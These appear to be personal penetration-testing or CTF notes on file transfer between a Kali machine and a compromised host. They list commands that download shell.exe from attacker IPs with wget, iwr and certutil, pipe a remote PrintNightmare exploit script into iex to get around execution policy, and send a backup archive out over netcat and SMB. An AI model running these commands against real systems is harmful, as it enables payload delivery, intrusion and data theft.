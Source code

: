 from windows back to my kali linux
on kali run
```
smbserver.py smb share/ -smb2support
```
on windows, run:
```
net use \\192.168.49.109\smb
```
then copy the file
```
copy .\mimi_allyouneed101.txt \\192.168.49.109\smb\mimi_allyouneed101.txt
```

wget
```
wget http://10.10.14.169/shell.exe -o s.exe
```

iwr
```
iwr -uri http://10.10.14.169/shell.exe -o s.exe
```

```
certutil -split -urlcache -f http://192.168.49.109/chkaccess.exe C:\\Users\\rudi.davis\\Desktop\\chkaccess.exe
```

if wget doesn't work because IE engine isn't availablem, use `curl` with parameter:
```
curl 10.10.14.6/CVE-2021-1675.ps1 -UseBasicParsing | iex
```
- `-UseBasicParsing` allows the file to come back without IE
- `iex` imports (or runs) the script 
	- useful if can't import/run a script when transferred via other means because of execution policy and `powershell -ep bypass` doesn't work

### NC from remote to host
```
nc -lnvp 443 > 16162020_backup.zip
```
- run on kali
```
md5sum 16162020_backup.zip
```
- checksum on remote machine before transferring
```
cat 16162020_backup.zip | nc 10.10.14.191 443
```
- on remote machine to initiate the transfer
```
md5sum 16162020_backup.zip
```
- checksum on kali to make sure matches